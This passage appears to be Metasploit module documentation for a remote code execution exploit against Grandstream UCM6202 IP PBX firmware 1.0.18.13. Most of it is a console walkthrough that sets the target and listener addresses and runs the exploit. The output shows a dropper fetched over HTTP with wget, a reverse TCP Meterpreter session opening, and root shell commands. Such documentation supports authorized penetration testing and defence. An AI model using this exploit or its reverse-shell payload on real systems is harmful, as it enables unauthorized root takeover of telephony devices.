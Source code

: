 ### TARGETURI

Specifies base URI. The default value is `/`.

## Scenarios

### Grandstream UCM6202 IP PBX fimrware version 1.0.18.13. Get Meterpreter session.

```
msf6 > use exploit/linux/http/grandstream_ucm62xx_sendemail_rce
[*] Using configured payload linux/armle/meterpreter/reverse_tcp
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set RHOST 10.0.0.9
RHOST => 10.0.0.9
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > check

[*] Requesting version information from /cgi
[*] The reported version is: 1.0.18.13
[*] 10.0.0.9:8089 - The target appears to be vulnerable. This determination is based on the version string.
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > set LHOST 10.0.0.3
LHOST => 10.0.0.3
msf6 exploit(linux/http/grandstream_ucm62xx_sendemail_rce) > run

[*] Started reverse TCP handler on 10.0.0.3:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Requesting version information from /cgi
[*] The reported version is: 1.0.18.13
[+] The target appears to be vulnerable. This determination is based on the version string.
[*] Executing Linux Dropper for linux/armle/meterpreter/reverse_tcp
[*] Using URL: http://0.0.0.0:8080/unV0mXd6RPWD
[*] Local IP: http://10.0.0.3:8080/unV0mXd6RPWD
[*] Client 10.0.0.9 (Wget/1.10.1) requested /unV0mXd6RPWD
[*] Sending payload to 10.0.0.9 (Wget/1.10.1)
[*] Sending stage (903400 bytes) to 10.0.0.9
[*] Meterpreter session 1 opened (10.0.0.3:4444 -> 10.0.0.9:51031 ) at 2022-01-15 12:12:28 -0800
[+] Exploit successfully executed.
[*] Command Stager progress - 100.00% done (113/113 bytes)
[*] Server stopped.

meterpreter > shell
Process 4990 created.
Channel 1 created.
whoami
root
uname -a
Linux UCM6202 3.0.35 #1 SMP PREEMPT Thu Jul 5 15:56:51 CST 2018 armv7l GNU/Linux
cat /proc/cpuinfo
Processor	: ARMv7 Processor rev 10 (v7l)
processor	: 0
BogoMIPS	: 1988.29

processor	: 1
BogoMIPS	: 1987.37

Features	: swp half thumb fastmult vfp edsp neon vfpv3 
CPU implementer	: 0x41
CPU architecture: 7
CPU variant	: 0x2
CPU part	: 0xc09
CPU revision	: 10

Hardware	: Freescale i.MX 6Quad/DualLite/Solo based Board
```